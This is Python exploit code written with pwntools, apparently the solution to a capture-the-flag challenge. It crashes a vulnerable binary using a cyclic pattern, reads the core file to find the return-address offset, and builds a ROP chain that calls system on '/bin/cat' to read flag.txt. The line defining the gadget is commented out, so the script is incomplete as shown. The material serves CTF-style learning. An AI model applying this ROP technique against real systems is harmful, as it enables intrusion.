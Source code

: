 ```python
# pop_rdi_gadget = 0x4007c3
bincat_addr = next(elf.search(b'/bin/cat'))
system_addr = elf.symbols['system']

# Print out the target address
info("%#x pop rdi; ret;", pop_rdi_gadget)
info("%#x /bin/cat", bincat_addr)
info("%#x system", system_addr)

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of RSP at the time of crashing (SP for ARM)
stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)

# ====================
# Now we know the offset from the beginning of our controlled data.
# ====================

# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
# Note that we have to call pop_rdi gadget here
payload = flat(
    asm('nop') * offset,
    pop_rdi_gadget,
    bincat_addr,
    system_addr
)

# Send the payload to a new copy of the process
io = start()
io.sendline(payload)
io.recv()

# Get our flag!
flag = io.recvline()
success(flag)
```
